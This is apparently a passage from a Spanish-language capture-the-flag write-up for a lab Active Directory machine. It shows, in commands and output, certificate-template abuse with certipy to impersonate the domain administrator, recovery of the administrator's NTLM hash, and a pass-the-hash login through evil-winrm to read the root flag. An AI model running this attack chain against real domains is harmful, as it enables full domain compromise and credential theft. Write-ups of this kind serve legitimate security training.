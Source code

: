 ```
certipy-ad req -ca sequel-DC01-CA -template "DunderMifflinAuthentication" -upn administrator@sequel.htb -dc-ip 10.129.1.36 -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce
```

```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 7
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

`certipy auth -pfx` para autenticacion con certificado en formato .pfx:

```
certipy-ad auth -dc-ip 10.129.1.36 -pfx administrator.pfx
```

hash NTLM del usuario Administrator:

```
[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

pass-the-hash con `evil-winrm`:

```
evil-winrm -i sequel.htb -u "Administrator" -H 7a8d4e04986afa8ed4060f75e5a0b3ff
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
```

Obtengo la flag root.txt:

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
c9403823************************
```

# 🦀
